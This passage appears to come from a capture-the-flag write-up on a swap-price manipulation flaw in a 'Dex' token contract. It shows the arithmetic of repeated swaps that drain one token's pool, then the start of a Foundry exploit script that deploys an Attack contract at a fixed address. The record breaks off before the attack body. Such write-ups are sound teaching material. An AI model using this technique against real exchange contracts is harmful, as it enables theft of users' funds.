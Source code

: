    ```
    swap(token1, token2, 10)  
      swapAmount = (10 * 100)//100 = 10
      ==>  balance of player in token1 = 10 - amount = 0
      ==>  balance of player in token2 = 10 + swapAmount = 20
    
      ==>  balance of Dex in token1 = 110
      ==>  balance of Dex in token2 = 100 - swapAmount = 90

    swap(token2, token1, 20) 
      swapAmount  = (20 * 110) // 90 = 24
      ==>  balance of player in token2 = 20 - amount = 0
      ==>  balance of player in token1 = 0 + swapAmount = 24
    
      ==>  balance of Dex in token2 = 90 + amount
      ==>  balance of Dex in token1 = 110 - swapAmount = 110 - 24 = 86
    ```

8. Here you can see that the after each swap `swapAmount` is becoming greater than the amount the comes in.
9. After doing 5 swaps we need to do 45 amount of tokens swap from token2 to token1 which will make token2 balance of `Dex` zero.

`DexSolve.s.sol`

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import "forge-std/Script.sol";
import "forge-std/console.sol";
import {Dex} from "../src/Dex.sol";
import "openzeppelin-contracts/contracts/token/ERC20/IERC20.sol";

contract DexSolve is Script{
    Dex public dex = Dex(0x13dC383F59782676f31c55baa715C6F24E4d8CF5);
    function run() external{
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));

        address token1 = address(dex.token1());
        address token2 = address(dex.token2());

        console.log("Token 1 : ", token1);
        console.log("Token 2 : ", token2);

        console.log("DEX balance in TOKEN1 ", dex.balanceOf(token1, address(dex)));
        console.log("DEX balance in TOKEN2 ", dex.balanceOf(token2, address(dex)));

        Attack attack = new Attack();
        
        dex.approve(address(attack), 10);

        attack.exploit();

        console.log("Attacker balance in TOKEN1 ", dex.balanceOf(token1, address(attack)));
        console.log("Attacker balance in TOKEN2 ", dex.balanceOf(token2, address(attack)));

        console.log("DEX balance in TOKEN1 ", dex.balanceOf(token1, address(dex)));
        console.log("DEX balance in TOKEN2 ", dex.balanceOf(token2, address(dex)));
        vm.stopBroadcast();
    }
}

contract Attack{
    Dex public dex = Dex(0x13dC383F59782676f31c55baa715C6F24E4d8CF5);
   ```